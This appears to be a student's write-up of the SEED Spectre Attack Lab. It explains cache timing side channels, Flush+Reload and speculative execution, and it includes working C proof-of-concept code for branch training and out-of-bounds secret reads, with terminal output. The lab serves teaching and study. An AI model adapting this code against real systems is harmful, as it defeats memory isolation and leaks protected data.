



# Spectre Attack Lab

## What are the vulnerabilities?

The vulnerabilities allow a program to **break inter-process and intra-process isolation**, so a malicious program can read the data from the area that is not accessible to it.

## Topics Covered

- Spectre attack
- Side Channel Attacks
- CPU Caching
- Out-of-order execution and branch prediction inside CPU microarchitecture

## Task 1 and Task 2: Side Channel Attack via CPU Caching

> Use CPU cache as a side channel to steal a protected secret

### Time difference between accessing data in CPU cache and in main memory


The array[3*4096] and array[7*4097] are in the CPU cache, while the other elements are in the main memory. The access time for the elements in the CPU cache is *4x* shorter than that for the elements in the main memory.
- The array[3*4096] and array[7*4097] are in the CPU cache, while the other elements are in the main memory. The access time for the elements in the CPU cache is *4x* shorter than that for the elements in the main memory.
```
$ ./cachetime
Access time for array[0*4096]: 284 CPU cycles
Access time for array[1*4096]: 338 CPU cycles
Access time for array[2*4096]: 496 CPU cycles
Access time for array[3*4096]: 92 CPU cycles
Access time for array[4*4096]: 336 CPU cycles
Access time for array[5*4096]: 344 CPU cycles
Access time for array[6*4096]: 328 CPU cycles
Access time for array[7*4096]: 110 CPU cycles
Access time for array[8*4096]: 414 CPU cycles
Access time for array[9*4096]: 320 CPU cycles
```

### How to use the to extract a secret value used by the victim function?



We can use the techinique called **Flush+Reload** to extract a secret value used by the victim function! The steps are as follows:

1. FLUSH the entire array from the cache memory to make sure the array is not cached.
2. Invoke the victim function, which accesses one of the array elements based on the value of the secret. This action causes the corresponding array element to be cached.
3. RELOAD the entire array, and measure the time it takes to reload each element. If one specific element’s loading time is fast, it is very likely that element is already in the cache. This element must be the one accessed by the victim function. Therefore, we can figure out what the secret value is

> Note: The technique is not 100 percent accurate, and you may not be able to observe the expected output all the time.

## Task 3: Out-of-Order Execution and Branch Prediction

### What is out of order execution?

Out-of-order execution is an optimization technique that allows **CPU to maximize the utilization of all its execution units.** Instead of processing instructions strictly in a sequential order, a CPU executes them in **parallel** as soon as **all required resources are available**. While the execution unit of the current operation is occupied, other execution units can run ahead.

```c
1 data = 0;
2 if (x < size) { // Line 2 invole 2 operations in CPU: (1) load size from memory, (2) compare x and size
3 data = data + 5; // Line 3 can be "executed" out of order if CPU has data but does not have x or size even if x < size is not true
4 }
```

### What is branch prediction?

In the above example, if `size` is not in CPU cache,  modern CPUs try to **predict** the outcome of the comparison, and speculatively execute the branches based on the estimation. Since such execution starts before the comparison even finishes, the execution is called out-of-order execution.

Before doing the out-of-order execution, the CPU stores its current state and value of registers (allow reverting). When the value of size finally arrives, the CPU will check the actual outcome. If the prediction is true, the speculatively performed execution is **committed** and there is a significant performance gain. If the prediction is wrong, the CPU will **revert back** to its saved state, so all the results produced by the out-of-order execution will be discarded like it has never happened.

### The problem with out-of-order execution and branch prediction

Intel and several CPU makers made a severe mistake in the design of the out-of-order execution. However, they forgot one thing, **the effect on CPU caches**.

During the out-of-order execution, the referenced memory is fetched into a register and **is also stored in the cache**. If the results of the out-of-order execution have to be discarded, the caching caused by the execution should also be discarded. Unfortunately, this is not the case in most CPUs. Therefore, it creates an observable effect.



### An experiment to observe the effect caused by an out-of-order execution

```c
void victim(size_t x)
{
  if (x < size) {  
      temp = array[x * 4096 + DELTA];  
  }
}

int main() {
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  // This is to make sure the CPU will predict the branch condition is true because 
  // the value of x is always less than size.
  for (i = 0; i < 10; i++) {   
      victim(i);
  }

  // Exploit the out-of-order execution
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
      _mm_clflush(&array[i*4096 + DELTA]); 
  // The CPU will predict the branch condition is true, and speculatively execute the code inside the branch
  // So array[97 * 4096 + DELTA] will be cached and not flushed
  victim(97);

  // RELOAD the probing array
  reloadSideChannel();

  return (0); 
}
```

#### Experment output when threshold is set to 38

```bash
tim@tim-virtual-machine ~/g/n/l/S/Labsetup (main)> ./SE
array[6*4096 + 1024] is in cache.
The Secret = 6.
array[13*4096 + 1024] is in cache.
The Secret = 13.
array[35*4096 + 1024] is in cache.
The Secret = 35.
array[45*4096 + 1024] is in cache.
The Secret = 45.
array[74*4096 + 1024] is in cache.
The Secret = 74.
array[97*4096 + 1024] is in cache.
The Secret = 97.
array[105*4096 + 1024] is in cache.
The Secret = 105.
array[231*4096 + 1024] is in cache.
The Secret = 231.
array[237*4096 + 1024] is in cache.
The Secret = 237.
array[243*4096 + 1024] is in cache.
The Secret = 243.
array[249*4096 + 1024] is in cache.
The Secret = 249.
```

#### Experiment output when the `size` is not flushed and the threshold is set to 38

The out-of-order execution and branch prediction is not executed because the CPU has all needed resources e.g. `size` for branching, so the secret is not revealed.

```bash
tim@tim-virtual-machine ~/g/n/l/S/Labsetup (main)> ./SE
array[39*4096 + 1024] is in cache.
The Secret = 39.
array[69*4096 + 1024] is in cache.
The Secret = 69.
array[83*4096 + 1024] is in cache.
The Secret = 83.
array[90*4096 + 1024] is in cache.
The Secret = 90.
array[176*4096 + 1024] is in cache.
The Secret = 176.
array[186*4096 + 1024] is in cache.
The Secret = 186.
array[203*4096 + 1024] is in cache.
The Secret = 203.
array[221*4096 + 1024] is in cache.
The Secret = 221.
tim@tim-virtual-machine ~/g/n/l/S/Labsetup (main)> ./SE
array[59*4096 + 1024] is in cache.
The Secret = 59.
array[82*4096 + 1024] is in cache.
The Secret = 82.
array[115*4096 + 1024] is in cache.
The Secret = 115.
array[153*4096 + 1024] is in cache.
The Secret = 153.
array[179*4096 + 1024] is in cache.
The Secret = 179.
array[206*4096 + 1024] is in cache.
The Secret = 206.
array[216*4096 + 1024] is in cache.
The Secret = 216.
array[230*4096 + 1024] is in cache.
The Secret = 230.
```

#### Experiment output when we call `victim(i+20)` in the training loop

The `victim(i+20)` trained the CPU to predict the branch condition is false. So when we call `victim(97)`, the CPU will predict the branch condition is false, so the code inside the branch will not be executed. Therefore, the secret is not revealed.

```bash
tim@tim-virtual-machine ~/g/n/l/S/Labsetup (main)> ./SE
tim@tim-virtual-machine ~/g/n/l/S/Labsetup (main)> ./SE
array[21*4096 + 1024] is in cache.
The Secret = 21.
array[29*4096 + 1024] is in cache.
The Secret = 29.
array[80*4096 + 1024] is in cache.
The Secret = 80.
array[102*4096 + 1024] is in cache.
The Secret = 102.
array[143*4096 + 1024] is in cache.
The Secret = 143.
array[157*4096 + 1024] is in cache.
The Secret = 157.
array[175*4096 + 1024] is in cache.
The Secret = 175.
```

## Task 4: Spectre Attacks

### Stealing secret from the same process

When **web pages from different servers are opened inside a browser**, they are often opened in the same process. The sandbox implemented inside the browser will provide an isolated environment for these pages, so one page will not be able to access another page’s data. Most software protections rely on condition checks to decide whether an access should be granted or not. With the Spectre attack, we can get CPUs to execute (out-of-order) a protected code branch even if the condition checks fails, essentially defeating the access check

#### The sandbox example code

Although the true-branch will never be executed if x is larger than the buffer size, at microarchi-tectural level, it can be executed and some traces can be left behind when the execution is reverted.

```c
// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  } 
}
```

#### The Spectre attack code



```c
void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
      restrictedAccess(i); 
  }
  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  // CPU return buffer[index_beyond] in out-of-order execution.
  s = restrictedAccess(index_beyond);  
  // This cause array[s*4096 + DELTA] to be loaded into the CPU cache
  array[s*4096 + DELTA] += 88;  
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}
```

#### Experiment output when the threshold is set to 39

can find the first byte of the secret, which is 83 in this case after running the program ~20 times. 

```bash
tim@tim-virtual-machine ~/g/n/l/S/Labsetup (main)> ./SA | grep "83"
array[83*4096 + 1024] is in cache.
The Secret = 83(S).
```

## Task 5: Improve Spectre Attack 

CPU sometimes **load extra values** in cache expecting that it might be used at some later point, or the threshold is not very accurate.

We can improve the spectre attack by running the attack multiple times with **statiscal analysis**.

```c
int main() {
  int i;
  uint8_t s;
  size_t index_beyond = (size_t)(secret - (char*)buffer);

  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0; 

  for (i = 0; i < 1000; i++) {
    printf("*****\n");  // This seemly "useless" line is necessary for the attack to succeed
    spectreAttack(index_beyond);
    usleep(10);
    reloadSideChannelImproved();
  }

  // Find the maximum score
  int max = 0;
  for (i = 0; i < 256; i++){
    if(scores[max] < scores[i]) max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0); 
}
```

#### Experiment output when the threshold is set to 39

- does not work well. The secret is not revealed.
- OS: Ubuntu 20.04

```
Reading secret value at index -8208
The secret value is 65(A)
The number of hits is 824
```

## Porting to Ubuntu 20.04 

This lab was originally developed on the 32-bit Ubuntu 16.04. When it was ported to
to the 64-bit Ubuntu 20.04, it did not work initially. However, after adding
`printf("something\n")` before calling `spectreAttack(larger_x)` (in both
`SpectreAttack.c` and `SpectreAttackImproved.c`), the Spectre attack became
successful. Not sure why. I guess this is a race condition problem, so the
timing matters. That extra `printf` statement might have got the timing correct.
On Ubuntu 16.04, there is no need for this extra printf statement. 


The attack works quite consistently on standalone SEED VM and cloud VM. 
